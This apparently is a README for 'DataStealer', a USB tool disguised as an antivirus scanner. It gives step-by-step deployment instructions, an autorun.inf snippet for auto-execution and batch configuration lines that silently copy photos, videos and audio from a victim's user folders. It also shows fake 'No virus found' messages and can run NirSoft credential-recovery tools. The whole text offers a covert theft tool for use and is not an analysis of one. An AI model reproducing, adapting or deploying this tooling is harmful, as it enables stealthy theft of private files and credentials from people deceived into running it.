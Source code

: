 # DataStealer

## Information
DataStealer is a simple funcionality for USB device (fake Antivirus USB) to gather information in Windows systems.

## Intructions
Just copy all from DataStealer folder and paste in USB device. Hide **"data"** folder and **"run.bat"**. When you conect USB device in Windows system just doble click in AntivirusUSB.vbs and DataStealer copy all files stealthily from pc.

***NOTE: You can use autotun.inf for auto-execute .vbs file but it only works in Windows Vista and Windows XP.***

[**Autorun.inf**](wikipedia.org/wiki/AutoRun "Wikipedia")
>[AutoRun]
>
>Open=AntivirusUSB.vbs

## Configuration
You can change diferents values in **run.bat**.

**Add or remove formats of steal files**
>set formats=*.jpg *.png *.mp4 *.3gp *.wav

**Enable or disable messages**
>set msg1=**true / false** [DEFAULT TRUE]
>
>set msg2=**true / false** [DEFAULT TRUE]
>
>set msg1text=Analyzing USB device for searching virus. [WINDOWS TEXT]
>
>set msg2text=No virus found. [WINDOWS TEXT]

**Enable or disable file theft**
>set stealfiles=**true / false** [DEFAULT TRUE]
>
>set nirsoft=**true / false** [DEFAULT TRUE]
>
>set soft=**[names of nirsoft software files]** [DEFAULT EMPTY]

### Folders (Advanced Users)
If you want you can add lines with more folders in **"run.bat"** for gather information.

Like this:
>FOR /R **"%userprofile%\Pictures\"** %%a IN (%formats%) DO (copy /y "%%a" "%%#:\data\capt\%USERNAME%\")

Replace **"%userprofile%\Pictures\"** for any folder from Windows.

# Download
[Releases](https://github.com/Kevinsillo/datastealer/releases)